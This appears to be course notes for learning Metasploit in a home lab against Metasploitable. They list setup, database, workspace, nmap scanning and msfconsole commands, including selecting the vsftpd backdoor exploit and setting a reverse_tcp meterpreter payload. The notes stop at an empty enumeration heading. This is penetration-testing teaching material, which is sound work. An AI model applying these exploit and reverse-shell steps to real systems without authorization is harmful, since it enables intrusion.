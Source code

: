 - [Course Link](https://www.udemy.com/course/metasploit-from-scratch-beginner-to-professional/)

- Install kali linux and metasploit - Setting up a lab environment

    - https://www.kali.org/get-kali/#kali-virtual-machines | vmware

    - https://sourceforge.net/projects/metasploitable/

- Open both virtual machines in vmware workstation 17 player | Configuring Framework

- Start kali linux and metasploit

- Make sure postgresql is running in kali linux

    - sudo service postgresql start

    - sudo service postgresql status

    - sudo msfdb init

    - sudo msfdb status

    - sudo msfconsole

    - db_status

    - db_connect -y /usr/share/metasploit-framework/config/database.yml

    - db_status


- Creating and managing workspaces

    - workspace -a <name> : create a new workspace

    - workspace : list all workspaces

    - workspace <name> : switch to a workspace

    - workspace -d <name> : delete a workspace

    - workspaces : list all workspaces

    - workspace -r : rename a workspace

    - hosts : list all hosts in the current workspace

    - services : list all services in the current workspace

    - db_nmap <ip> : scan a host and add it to the database

    - db_nmap -sV -p 1-65535 <ip> : scan all ports and services of a host

    - vulns : list all vulnerabilities in the current workspace

    - notes : list all notes in the current workspace

- msfconsole

    - msfconsole : start the metasploit console

    - help : list all commands

    - banner : display the metasploit banner

    - version : display the metasploit version

    - search <name> : search for a module, eg search vsftpd

    - use <module> : use a module, eg use exploit/unix/ftp/vsftpd_234_backdoor

    - show options : show the options of the current module

    - set <option> <value> : set an option, eg set RHOSTS <ip>

    - setg <option> <value> : set a global option, eg setg RHOSTS <ip>  

    - getg <option> : get a global option, eg getg RHOSTS 

    - unset <option> : unset an option, eg unset RHOSTS 

    - search type:payload : search for a payload 

    - show payloads : show all payloads for the current module

    - search type:auxiliary : search for auxiliary modules

    - show auxiliary : show all auxiliary modules

    - search type:payload platform:windows : search for windows payloads

    - search type:exploit platform:linux : search for linux exploits

    - search type:payload name:ssh : search for ssh payloads

    - set PAYLOAD <payload> : set a payload, eg set PAYLOAD linux/x86/meterpreter/reverse_tcp

    - show encoders : show all encoders

    - set LHOST <ip> : set the local host, eg set LHOST <ip>

    - set LPORT <port> : set the local port, eg set LPORT 4444

    - save : save the current module settings

- Port scanning and Enumeration

    - 